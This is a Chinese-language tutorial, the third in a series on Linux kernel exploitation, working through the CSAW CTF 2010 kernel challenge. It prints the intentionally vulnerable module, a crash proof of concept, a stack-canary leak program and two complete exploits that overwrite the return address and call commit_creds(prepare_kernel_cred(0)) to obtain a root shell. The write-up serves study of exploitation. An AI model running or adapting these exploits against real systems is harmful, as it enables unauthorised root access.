

# 【系列分享】Linux 内核漏洞利用教程（三）：实践 CSAW CTF 题目


                                阅读量   
                                **210110**
                            
                        |
                        
                                                                                                                                    
                                                                                            


****

**[](./img/85848/t016878cab306c6d8d4.jpg)**

****

作者：[o0xmuhe](http://bobao.360.cn/member/contribute?uid=32403999)

预估稿费：400RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**传送门**

**[【系列分享】Linux 内核漏洞利用教程（一）：环境配置](http://bobao.360.cn/learning/detail/3700.html)**

[**【系列分享】Linux 内核漏洞利用教程（二）：两个Demo******](http://bobao.360.cn/learning/detail/3702.html)

**<br>**

**0x00: 前言**

经过前两篇文章的学习，对于linux kernel exploit应该有了一点认识了，那么这次来实践一道古老的CTF题目，来自CSAW CTF 2010的一道kernel exploit题目。本来整个题目是要求读取flag的(root才能读)，我这里直接提权做的，反正最后都能达到目的。更多的关于linux kernel exploit相关的资料可以看看这个项目。

<br>

**0x01 :漏洞代码**

有漏洞的代码如下：


```
/*
 * csaw.c
 * CSAW CTF Challenge Kernel Module
 * Jon Oberheide &lt;jon@oberheide.org&gt;
 *
 * This module implements the /proc/csaw interface which can be read
 * and written like a normal file. For example:
 *
 * $ cat /proc/csaw 
 * Welcome to the CSAW CTF challenge. Best of luck!
 * $ echo "Hello World" &gt; /proc/csaw
 */
#include &lt;linux/module.h&gt;
#include &lt;linux/kernel.h&gt;
#include &lt;linux/init.h&gt;
#include &lt;linux/proc_fs.h&gt;
#include &lt;linux/string.h&gt;
#include &lt;asm/uaccess.h&gt;
#define MAX_LENGTH 64
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Jon Oberheide");
MODULE_DESCRIPTION("CSAW CTF Challenge Kernel Module");
static struct proc_dir_entry *csaw_proc;
/*
struct proc_dir_entry {
    unsigned short low_ino;
    unsigned short namelen;
    const char *name;
    mode_t mode;
    nlink_t nlink;
    uid_t uid;
    gid_t gid;
    unsigned long size;
    struct inode_operations * proc_iops;
    struct file_operations * proc_fops;
    get_info_t *get_info;
    struct module *owner;
    struct proc_dir_entry *next, *parent, *subdir;
    void *data;
    read_proc_t *read_proc;
    write_proc_t *write_proc;
    atomic_t count;      //use count 
    int deleted;        //delete flag
    kdev_t    rdev;
};
*/
int
csaw_write(struct file *file, const char __user *ubuf, unsigned long count, void *data)
{
    char buf[MAX_LENGTH];
    printk(KERN_INFO "csaw: called csaw_writen");
    /* 
     * We should be safe to perform this copy from userspace since our 
     * kernel is compiled with CC_STACKPROTECTOR, which includes a canary
     * on the kernel stack to protect against smashing the stack.
     *
     * While the user could easily DoS the kernel, I don't think they
     * should be able to escalate privileges without discovering the 
     * secret stack canary value.
     */
    if (copy_from_user(&amp;buf, ubuf, count)) {
        printk(KERN_INFO "csaw: error copying data from userspacen");
        return -EFAULT;
    }
    return count;
}
int
csaw_read(char *page, char **start, off_t off, int count, int *eof, void *data)
{
    char buf[MAX_LENGTH];
    printk(KERN_INFO "csaw: called csaw_readn");
    *eof = 1;
    memset(buf, 0, sizeof(buf));
    strcpy(buf, "Welcome to the CSAW CTF challenge. Best of luck!n");
    memcpy(page, buf + off, MAX_LENGTH);
    return MAX_LENGTH;
}
static int __init
csaw_init(void)
{
    printk(KERN_INFO "csaw: loading modulen");
    csaw_proc = create_proc_entry("csaw", 0666, NULL);
    csaw_proc-&gt;read_proc = csaw_read;
    csaw_proc-&gt;write_proc = csaw_write;
    printk(KERN_INFO "csaw: created /proc/csaw entryn");
    return 0;
}
static void __exit
csaw_exit(void)
{
    if (csaw_proc) {
        remove_proc_entry("csaw", csaw_proc);
    }
    printk(KERN_INFO "csaw: unloading modulen");
}
module_init(csaw_init);
module_exit(csaw_exit);
Makefile如下
obj-m := csaw.o  
KERNELDR := ~/linux_kernel/linux-2.6.32.1/linux-2.6.32.1/
PWD := $(shell pwd)  
modules:  
        $(MAKE) -C $(KERNELDR) M=$(PWD) modules  
moduels_install:  
        $(MAKE) -C $(KERNELDR) M=$(PWD) modules_install  
clean:  
        rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions
```


**0x02 : 分析**

首先漏洞点很好找，就是一个简单粗暴的栈溢出：


```
int
csaw_write(struct file *file, const char __user *ubuf, unsigned long count, void *data)
{
    char buf[MAX_LENGTH];
    printk(KERN_INFO "csaw: called csaw_writen");
    /* 
     * We should be safe to perform this copy from userspace since our 
     * kernel is compiled with CC_STACKPROTECTOR, which includes a canary
     * on the kernel stack to protect against smashing the stack.
     *
     * While the user could easily DoS the kernel, I don't think they
     * should be able to escalate privileges without discovering the 
     * secret stack canary value.
     */
    if (copy_from_user(&amp;buf, ubuf, count)) {
        printk(KERN_INFO "csaw: error copying data from userspacen");
        return -EFAULT;
    }
    return count;
}
```

这里，从用户空间做拷贝的时候未作任何check，导致过长的字符串可以覆盖到返回地值，这种情形和我们第二篇文章中遇到的情况一样，那么是不是就按照那个文章做利用就可以了呢？并不是，从注释中看出，出题者是开启了kernel CANARY选项的，也就是说，我们直接去覆盖的话，会先覆盖CANARY，然后就会过不了check从而kernel panic。

是不是这就没法玩了呢？一般来说，对于CANARY这种情况，我们采取的策略要么是leak，要么就是crack。继续分析代码，看到read部分：


```
int
csaw_read(char *page, char **start, off_t off, int count, int *eof, void *data)
{
    char buf[MAX_LENGTH];
    printk(KERN_INFO "csaw: called csaw_readn");
    *eof = 1;
    memset(buf, 0, sizeof(buf));
    strcpy(buf, "Welcome to the CSAW CTF challenge. Best of luck!n");
    //could leak canary here!!!!
    memcpy(page, buf + off, MAX_LENGTH);
    return MAX_LENGTH;
}
```

拼接了栈上一个变量，然后拷贝到了用户空间，而且拷贝的长度很长，这就是出题人故意留下的info leak，好让我们可以leak CANARY的值。

那么现在，我们拥有一个info leak，拥有一个stack bof，两者结合，就是第二篇文章中的利用方式了。只需要组合payload为：

```
junk+CANARY+ebp+payload_addr
```

我们就可以像之前一样去get root shell啦~

<br>

**0x03 : Poc**

poc的代码很简单，直接触发漏洞就可以，但是这种直接就kernel panic的。


```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
int main(int argc,char *argv[]){
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd){
        printf("errorn");
        exit(1);
    }
    char poc[64];
    memset(poc,0x41,64);
    printf("Triger bug:n");
    write(fd,poc,64);
    return 0;
}
```

下面我们写一个dump，可以dump出CANARY的值：


```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
int main(int argc,char *argv[]){
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd){
        printf("errorn");
        exit(1);
    }
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = {0};
    read(fd,buffer,64);
    int i,j;
   // memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++){
        for(j = 0;j&lt;16;j++){
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        }
        printf(" | ");
        for(j = 0;j&lt;16;j++){
            printf("%c",buffer[i*16+j] &amp; 0xff);
        }
        printf("n");
    }
    char canary[4] = {0};
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++){
        printf("%02x",canary[i] &amp; 0xff);
    }
    printf("n");
    return 0;
}
```

还和之前一样，编译后，丢busybox文件系统，然后qemu起系统，之后测试我们的dump程序是否工作正常：

[](https://p2.ssl.qhimg.com/t01557ba74cba0b9ea6.png)

可以看到，我们的dump程序可以正常dump出CANARY的值，那么下面的工作就很简单了，直接可以利用这个leak，构造payload去拿root shell了。

<br>

**0x04 : Exploit**

**1. 编写的exploit代码如下：**


```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));
void launch_shell(void) 
{ 
    execl("/bin/sh", "sh", NULL);
}
struct trap_frame tf;
void prepare_tf(void) 
{ 
    asm("pushl %cs; popl tf+4;"
        "pushfl; popl tf+8;"
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &amp;launch_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1067fc0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1067e20;
void payload(void){
    //payload here    
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
       "iret;");
}
int main(int argc,char *argv[]){
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd){
        printf("errorn");
        exit(1);
    }
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = {0};
    read(fd,buffer,64);
    int i,j;
    //memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++){
        for(j = 0;j&lt;16;j++){
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        }
        printf(" | ");
        for(j = 0;j&lt;16;j++){
            printf("%c",buffer[i*16+j] &amp; 0xff);
        }
        printf("n");
    }
    char canary[4] = {0};
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++){
        printf("%02x",canary[i] &amp; 0xff);
    }
    printf("n");
    char poc[84] = {0};
    memset(poc,0x41,76);
    memcpy(poc+64,canary,4);//set canary
    *((void**)(poc+64+4+4)) = &amp;payload;
    printf("[*]payload:%sn",poc);
    printf("Triger bug:n");
    //init tf struct;
    prepare_tf();
    write(fd,poc,76);
    return 0;
}
```

**1. 调试exploit**

还是像之前一样，设置gdbserver，并且把csaw.ko这个模块的信息传递给gdb。

先确定模块代码节地址：

[](https://p2.ssl.qhimg.com/t0163cc2809bf7f75c3.png)

这一步之后，gdbserver连接，添加symbol-file之后，对有漏洞的函数下断，就可以回到qemu中，启用exploit程序了。

[](https://p1.ssl.qhimg.com/t014d168b8c658b2694.png)

我们对ret的地方下断点，然后c过去：

[](https://p2.ssl.qhimg.com/t01597443abe7936a3e.png)

查看一下栈顶的情况：

[](https://p0.ssl.qhimg.com/t01924aa209a56cc197.png)

出问题了，并没有要ret到payload地址去。

**2. 发现问题**

既然已经ret不到payload地址上，那么我们需要往前找一找，单步一下看看栈顶的变化，找出造成这种情况的原因：

[](https://p5.ssl.qhimg.com/t013d9749f53c5996ee.png)

直接对这个平衡栈的指令下断，然后c，qemu里再次跑一下exploit程序。

[](https://p1.ssl.qhimg.com/t017de636699d1b9b3b.png)

这个时候查看栈顶：

[](https://p1.ssl.qhimg.com/t01f8cf6f69f141dbb7.png)

我们的payload是在栈中的，看看执行完了add指令之后的情况：

[](https://p0.ssl.qhimg.com/t013dbd1de02eef0534.png)

随着箭头指向，我们可以看到，在执行了三条pop指令后，我们的payload地址会被弹到esi中去，那么后面ret返回的时候，就直接返回到0xc114396c这个地址去了，所以就没有ret到我们的payload去。

**3. 解决方案**

原因已经找到了，下面说下解决方案，其实也很简单，他有pop，你在后面添加junk字节就好了~

大概把payload结构调整成：

```
junk + CANARY + ebp + pl_addr + pl_addr + pl_addr
```

这样的话，总会ret到我们用来提权的代码中去的~

**2. 最终的exploit如下：**


```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));
void launch_shell(void) 
{ 
    execl("/bin/sh", "sh", NULL);
}
struct trap_frame tf;
void prepare_tf(void) 
{ 
    asm("pushl %cs; popl tf+4;"
        "pushfl; popl tf+8;"
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &amp;launch_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1067fc0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1067e20;
void payload(void){
    //payload here    
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
       "iret;");
}
int main(int argc,char *argv[]){
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd){
        printf("errorn");
        exit(1);
    }
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = {0};
    read(fd,buffer,64);
    int i,j;
    //memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++){
        for(j = 0;j&lt;16;j++){
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        }
        printf(" | ");
        for(j = 0;j&lt;16;j++){
            printf("%c",buffer[i*16+j] &amp; 0xff);
        }
        printf("n");
    }
    char canary[4] = {0};
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++){
        printf("%02x",canary[i] &amp; 0xff);
    }
    printf("n");
    char poc[84] = {0};
    memset(poc,0x41,84);
    memcpy(poc+64,canary,4);//set canary
    *((void**)(poc+64+4+4)) = &amp;payload;
    *((void**)(poc+64+4+4+4)) = &amp;payload;
    *((void**)(poc+64+4+4+4+4)) = &amp;payload;
    printf("[*]payload:%sn",poc);
    printf("Triger bug:n");
    //init tf struct;
    prepare_tf();
    write(fd,poc,84);
    return 0;
}
```

**1. 调试**

编译运行exploit_final，调试查看执行过程：

[](https://p5.ssl.qhimg.com/t01528c9d76062bae73.png)

查看栈顶，发现是我们payload的地址，单步过去查看：

[](https://p5.ssl.qhimg.com/t01c230ce5dd27c7988.png)

先去执行commit_creds(prepare_kernel_cred(0))，然后我们查看一下伪造的tf结构：

[](https://p1.ssl.qhimg.com/t01f942817f0b671f9e.png)

看一下tf.eip指向的函数：

[](https://p5.ssl.qhimg.com/t014c6397520086916b.png)

和exploit_final的get shell函数对比一下：

[](https://p4.ssl.qhimg.com/t0122d929f579e69981.png)

没什么问题，我们直接c过去。

[](https://p4.ssl.qhimg.com/t0108aada6dd66ede7d.png)

**2. 添加用户并测试**

添加普通用户muhe，然后测试exploit：

[](https://p1.ssl.qhimg.com/t01a9e59e5fc87200ac.png)

成功拿到root shell。

<br>

**0x05 : 参考与引用**

[CSAW CTF 2010 Kernel Exploitation Challenge](https://jon.oberheide.org/blog/2010/11/02/csaw-ctf-kernel-exploitation-challenge/)


**传送门**

**[【系列分享】Linux 内核漏洞利用教程（一）：环境配置](http://bobao.360.cn/learning/detail/3700.html)**

[**【系列分享】Linux 内核漏洞利用教程（二）：两个Demo******](http://bobao.360.cn/learning/detail/3702.html)


